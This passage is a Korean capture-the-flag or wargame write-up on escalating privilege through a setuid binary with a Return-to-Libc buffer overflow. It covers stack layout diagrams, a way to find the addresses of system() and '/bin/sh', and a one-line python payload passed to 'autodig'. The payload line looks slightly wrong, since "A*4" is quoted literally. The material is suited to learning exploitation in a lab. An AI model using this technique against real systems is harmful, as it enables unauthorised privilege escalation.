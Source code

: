      ​	→ setuid bit가 설정되어 있으므로 `my-pass`는 level 4의 권한으로 실행된다

   

4. 두번째 공격

   > RTL을 이용한 공격

   - RTL(Return To Libc) 

     ​	: stack에 공격 코드인 shell code를 올려놓고 실행하는 기법을 막은걸 우회하는 기법 

     

   - 메모리 구조 분석

     ![1572669094777](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572669094777.png)

   ​	→ 0x78 = 120

   ​	→ 120 = 100 byte + 12 byte (dummy) + 8 byte (dummy)

   ​	⇒	Low                                    								High 
   ​				|-------------- 120 -------------|-- 4 --|-- 4 --| 
   ​				|--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|
   ​				+-----------+----------+--------+------+------+
   ​				| cmd[100] | dummy | dummy|  SFP  |  RET  |
   ​				+-----------+----------+--------+------+------+

   

   -  RTL 공격에 필요한 변수 준비

     - system() 함수의 주소

       ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940428687.png)

       

     - "/bin/sh" 문자열의 주소

       - `vi findshell.c` 명령어로 findshell.c 파일 만들기

         ![1572940544315](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940544315.png)

       - findshell.c 파일 컴파일 및 실행

         ![1572940582569](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940582569.png)

         

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\xa4\x7e\x12\x42"'`
     ```

     ![1572940776853](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940776853.png)

     - 메모리 구조 분석

       |-------------- 120 -------------|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       |--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       +-----------+----------+--------+------+------+------+-------+
       | cmd[100] | dummy | dummy|  SFP  |  RET  | argc |argv[1]|
       +-----------+----------+--------+------+------+------+-------+
